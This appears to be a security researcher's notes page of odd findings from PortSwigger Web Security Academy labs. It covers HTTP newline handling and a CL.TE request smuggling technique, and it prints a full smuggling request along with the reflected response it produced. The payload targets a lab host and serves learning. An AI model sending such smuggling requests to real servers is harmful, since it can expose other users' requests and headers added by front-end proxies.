 # Mad security findings

This is crazy stuff I found out in the wild. I will put here only the ones, which are the most crazy in my opinion and caused my brain to question reality. Most of those I found out during solving Portswigger’s Web security academy labs or another security sandbox labs.

### Newlines

Seems trivial, but keep in mind HTTP Requests must have **two(!!!)** additional newlines at the request ending. There may be cases when they must be present on smuggled requests. Newlines in HTTP requests are used the ones with carriage return `\r\n`.

Looks like, mostly, web-servers are dismissing requests which contain solely newline character without carriage return (just `\n`, not `\r\n`). However, this can be potentially interesting way to exploit webservers or topic to research. 

## Request Smuggling

When it comes to request smuggling, there is a way how to expose request modification done by frontend server (CT.TE request smuggling). For example consider following request:

```
POST / HTTP/1.1
Host: aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa.web-security-academy.net
Transfer-Encoding: chunked
Content-Length: 251

0

POST / HTTP/1.1
Host: aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 260

search=POST /foo HTTP/1.1
Host: aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa.web-security-academy.net
```

This request expose request content into `search` param, which is then baked into outputting HTML. However the ending result is following:

```
0 search results for 'POST /foo HTTP/1.1
Host: aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa.web-security-academy.net
POST / HTTP/1.1
X-HEADER-AD: 11.155.222.156
Host: aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa.web-security-academy.net
Transfer-Encoding: chunked
Content-Length: 251

0
```

Request contains subsequent request, merged together. Wierd thing is, that it did not fail, because of double headers. TODO: Investigate.
